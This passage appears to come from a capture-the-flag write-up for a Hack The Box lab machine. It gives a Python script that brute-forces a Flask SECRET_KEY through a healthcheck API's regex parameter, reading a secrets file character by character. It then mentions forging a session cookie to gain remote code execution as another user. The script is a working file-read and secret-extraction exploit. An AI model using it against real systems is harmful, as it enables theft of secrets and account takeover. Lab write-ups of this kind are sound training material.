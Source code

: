 So now, we would need to create some form of script to brute force out the characters of the SECRET_KEY, because that's needed to decode the cookie and (maybe)_ get a password.

### Brute Force SECRET\_KEY

We can create a really quick python script the brute forcing to get the key.

```python
import string
import requests
import json

chars = string.printable
cookies = {'session': 'eyJ1c2VybmFtZSI6ImdhcnkifQ.Y28liQ.M3OPi3eJ7xcaUmaC0eENYqtHnu4'}

s = requests.Session()
pattern = ""

while True:
    for c in chars:
        try:
            rsp = s.post('http://dev.rainycloud.htb:3333/api/healthcheck', {
                'file': '/var/www/rainycloud/secrets.py',
                'type': 'custom',
                'pattern': "^SECRET_KEY = '" + pattern + c + ".*"
            }, cookies=cookies)
            if json.loads(rsp.content)['result']:
                pattern += c
                print(pattern)
                break
            else:
               pass
               # print(c)
        except Exception:
            print(rsp.content)
```

This would generate the SECRET\_KEY accordingly.

<figure><img src="../../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>

Now, we can actually generate another cookie to login as jack and gain RCE as jack.

<figure><img src="../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>
